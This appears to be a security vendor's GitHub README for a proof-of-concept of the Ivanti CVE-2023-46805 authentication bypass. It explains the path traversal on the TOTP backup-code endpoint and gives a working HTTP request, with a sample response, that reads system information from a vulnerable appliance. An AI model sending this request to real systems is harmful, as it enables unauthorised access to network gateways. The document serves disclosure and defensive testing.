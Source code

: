 # Ivanti CVE-2023-46805 PoC Exploit
CISA issued an emergency directive on Ivanti CVE-2023-46805 vulnerability. The agency also reported that CVE-2023-46805 poses unacceptable risks to many federal agencies and should be mitigated immediately.<br><br>
In this repo, Picus provides a Proof-of-Concept exploit for the CVE-2023-46805 vulnerability.

Test security controls against the CVE-2023-46805 vulnerability exploit 
--------------------------------------
Picus can help you simulate the CVE-2023-46805 vulnerability exploits for free. No setup or signup is required.<br>
Use [Picus Emerging Threat Simulator](https://insights.picussecurity.com/emerging-threat-simulator-announcement?utm_source=github&utm_medium=organic+social&utm_campaign=PLS+Offensive+-+ET+Simulator) and test your defenses in a few clicks.<br> 

If you are looking for more detailed information, check out our blog post: [Ivanti CVE-2023-46805 and CVE-2024-21887 Zero-Day Vulnerabilities Actively Exploited](https://www.picussecurity.com/resource/blog/ivanti-cve-2023-46805-and-cve-2024-21887-zero-day-vulnerabilities)


CVE-2023-46805 Proof-of-concept (POC)
----------------------
Ivanti CVE-2023-46805 vulnerability is an authentication bypass vulnerability found in the web component of Ivanti Connect Secure and Policy Secure products.<br>
The vulnerability is caused by a path traversal vulnerability found in the "/api/v1/totp/user-backup-code" endpoint. Additionally, this endpoint does not require any authentication, allowing adversaries to access public-facing endpoints.<br>
Adversaries combine the lack of authentication and path traversal vulnerability to access resources located in the endpoint.

The example HTTP GET request below exploits CVE-2023-46805 vulnerability to view system information without authentication.

#### Example CVE-2023-46805 Exploit:
```http
GET /api/v1/totp/user-backup-code/../../system/system-information
HTTP/1.1 Host: <IP_Vulnerable_Ivanti_Product>
Content-Length: 0

//Response from the vulnerable product
…
    "system-information" : {
        "Cluster-node" : {},
        "Hardware-model" : "PSA-3000",
        "host-name" : <redacted>
        "machine-id" : <redacted>
        "os-name" : "ive-sa",
        "os-version" : "9.1R18.1",
        "serial-number": <redacted>
    ｝
…
```

Disclaimer
----------
©2024 Picus Security <br>
All rights reserved.
